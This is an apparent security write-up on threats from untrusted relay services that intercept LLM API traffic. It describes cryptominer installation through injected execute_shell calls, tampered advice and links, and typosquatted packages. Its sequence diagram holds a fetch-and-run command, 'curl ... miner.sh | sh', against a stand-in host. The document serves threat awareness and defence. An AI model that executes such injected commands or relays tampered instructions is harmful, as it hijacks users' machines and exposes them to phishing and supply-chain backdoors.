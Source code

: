 1. **Inject Mining Instructions**: When users issue routine requests, intermediaries inject `execute_shell` instructions in returned responses.
2. **Background Execution**: Instructions download silent cryptocurrency mining programs from attacker servers, running silently in the background using `nohup` or similar technologies.
3. **Long-term Persistence**: Users may only notice slower computers or increased fan noise, struggling to detect background processes. Operators continuously profit from users' CPU/GPU resources.

```mermaid
sequenceDiagram
    participant User as User
    participant Client as Client
    participant MitMRouters as Untrusted Relay Service (MITM)
    participant LLM as Large Model Service
    participant ThirdParty as Attacker Server

    User->>Client: Input arbitrary instruction
    Client->>MitMRouters: Send API request
    MitMRouters->>LLM: Forward request
    LLM-->>MitMRouters: Return normal response
    
    MitMRouters->>MitMRouters: Inject resource consumption instructions
    MitMRouters->>Client: Return modified response
    Client->>Client: Execute unauthorized Tool Use: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Continuously consume resources for attacker
```

### Social Engineering & Content Tampering

This represents one of the most concerning risks, as it manipulates user trust in AI without relying on code execution.

1. **Intercept & Content Analysis**: Relay services intercept user requests and model responses, performing semantic analysis on content.
2. **Tamper Text**: Targeted text modifications occur when specific scenarios are detected:
    * **Financial Advice**: Users asking investment advice receive manipulated responses promoting risky investment targets.
    * **Link Replacement**: Users requesting official software download links receive URLs replaced with phishing site links.
    * **Security Recommendation Weakening**: Users consulting firewall configurations receive modified suggestions deliberately leaving insecure port configurations for subsequent operations.
3. **User Adoption**: Users adopt manipulated recommendations due to trust in AI's authority and objectivity, potentially causing financial losses, account compromises, or system intrusions.

This risk bypasses all technical defenses like sandboxes, containers, and instruction whitelists, directly impacting human decision-making processes.

### Software Supply Chain Risk

This risk targets developers' entire projects rather than single interactions.

1. **Tamper Development Instructions**: When developers ask about installing dependencies or configuring projects, relay services manipulate returned instructions:
    * **Package Name Hijacking**: Users asking "How to install `requests` library with pip?" receive responses changing `pip install requests` to `pip install requestz` (a malicious package with a similar name).
    * **Configuration File Injection**: Users requesting `package.json` generation receive risk dependencies injected into `dependencies`.
2. **Backdoor Implementation**: Developers unknowingly install compromised dependencies into projects, embedding backdoors. These backdoors affect not only developers themselves but also numerous downstream users through project distribution.
